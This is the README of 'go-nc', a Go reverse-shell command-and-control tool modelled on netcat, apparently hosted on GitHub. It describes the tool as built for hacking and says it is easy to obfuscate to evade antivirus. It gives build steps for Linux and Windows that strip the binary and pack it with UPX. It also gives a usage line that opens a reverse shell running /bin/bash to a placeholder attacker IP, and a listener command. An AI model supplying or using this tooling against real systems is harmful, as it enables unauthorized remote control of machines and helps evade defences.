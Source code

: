 # go-nc
Simple Command & Control for revshells in pure Go (Like a Netcat)

# Why?
The project is based on two repositories, which I unify and modify according to the use that is given to hacking. The idea of this project is to quickly and easily compile a multipurpose binary for different platforms and architectures. The advantage of this project is that it is easily obfuscable to evade antivirus, example: https://twitter.com/vay3t/status/1415547032719273984

Note: I asked the gonc project owner to include the -exec functionality to his project. As I am a bit impatient, I ended up doing it my way and it managed to remain functional.

Project based on:
* https://github.com/LukeDSchenk/go-backdoors
* https://github.com/dddpaul/gonc/


# Build

### For Linux
```bash
git clone https://github.com/vay3t/go-nc
cd go-nc
go build -ldflags "-s -w" go-nc.go
upx go-nc
```

```
-rwxr-xr-x 1 vay3t vay3t 685K Jul 15 00:21 go-nc
```

### For Windows
```bash
git clone https://github.com/vay3t/go-nc
cd go-nc
GOOS=windows GOARCH=amd64 go build -ldflags "-s -w" go-nc.go
upx go-nc.exe
```

```
-rwxr-xr-x 1 vay3t vay3t 825K Jul 15 00:30 go-nc.exe
```

# Usage

### Reverse shell
```bash
./go-nc -host <IP ATTACKER> -port 4444 -exec /bin/bash
```

### Server
```bash
./go-nc -listen
```
